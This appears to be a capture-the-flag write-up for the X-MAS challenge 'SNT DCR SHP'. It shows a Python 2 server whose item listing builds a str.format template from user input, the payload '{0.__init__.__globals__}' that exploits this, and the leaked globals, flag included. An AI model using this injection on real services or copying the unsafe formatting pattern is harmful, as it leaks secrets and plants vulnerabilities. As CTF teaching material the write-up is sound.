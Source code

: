 
# SNT DCR SHP

> Santa has opened a new decoration shop in place of the corner store. Will it
> be able to dominate the market or will it fall victim to hackers?

![Screenshot](screenshot.png)

| Asset      | Note                                                            |
|------------|-----------------------------------------------------------------|
| Server     | `nc challs.xmas.htsp.ro 13001`                                  |
| Author     | PinkiePie1189                                                   |
| Flag       | `X-MAS{C_15n7_th3_0nly_vuln3rabl3_l4nngu4g3_t0_f0rm47_57r1ng5}` |

# Analysis

First start by using netcat to connect to the given address:

```
$ nc challs.xmas.htsp.ro 13001
           ___
         /`   `'.
        /   _..---;
        |  /__..._/  .--.-.
        |.'  e e | ___\_|/____
       (_)'--.o.--|    | |    |
      .-( `-' = `-|____| |____|
     /  (         |____   ____|
     |   (        |_   | |  __|
     |    '-.--';/'/__ | | (  `|
     |      '.   \    )"";--`\ /
     \        ;   |--'    `;.-'
     |`-.__ ..-'--'`;..--'`

SANTA's Decoration shop yay!
1. Add new decoration to the shopping list
2. View your shopping list
3. Ask Santa for a suggestion
Your choice:
```

Selecting `1` gives you a prompt:

```
Your choice: 1
What item do you like to buy? Cookies
How many of those? 10
Thank you, your items will be added
```

Then picking `2` will list out your items:

```
Your choice: 2
10 x ... Cookies
```

Lastly picking `3` will give you the Python code for the server:

```
Santa shows you how his shop works to prove that he doesn't scam you!
<contents of files/server.py here>
```

Firstly, you'll see the flag is sitting around as a global variable:

```
from secret import flag
```

You'll notice what appears to be a red herring:

```
sys.stdout.write ("What item do you like to buy? ")
sys.stdout.flush ()
type = sys.stdin.readline ().strip ()

sys.stdout.write ("How many of those? ")
sys.stdout.flush ()
quantity = sys.stdin.readline ().strip () # Too lazy to sanitize this
```

The real problem is a `format()` string exploit:

```
def print_decoration(self):
    print ('{0.quantity} x ... '+ self.type).format(self)
```

Note that it's giving us control over the format string. This means we can
craft malicious things that inspect `self` which actually gives us access
to much more than just the `type` and `quantity` member variables. We can
add to our list an item like:

```
{0.__init__.__globals__}
```

This only works for Python 2.x which is what the server is running. Originally
I tried to solve this using Python 3.x locally and had a hard time. The quantity
you provide doesn't matter, once you enter the payload you pick option `2` and
list out your items:

```
1 x ... {'Decoration': <class '__main__.Decoration'>, 'leak_source_code': <function leak_source_code at 0x7fbf2a40f6e0>, '__builtins__': <module '__builtin__' (built-in)>, 'items': [<__main__.Decoration object at 0x7fbf2a409e90>], '__file__': '/chall/server.py', '__package__': None, 'sys': <module 'sys' (built-in)>, 'add_item': <function add_item at 0x7fbf2a40f848>, 'flag': 'X-MAS{C_15n7_th3_0nly_vuln3rabl3_l4nngu4g3_t0_f0rm47_57r1ng5}', 'menu': <function menu at 0x7fbf2a40f668>, '__name__': '__main__', 'show_items': <function show_items at 0x7fbf2a40f8c0>, 'choice': '2', 'os': <module 'os' from '/usr/lib/python2.7/os.pyc'>, '__doc__': None}
```
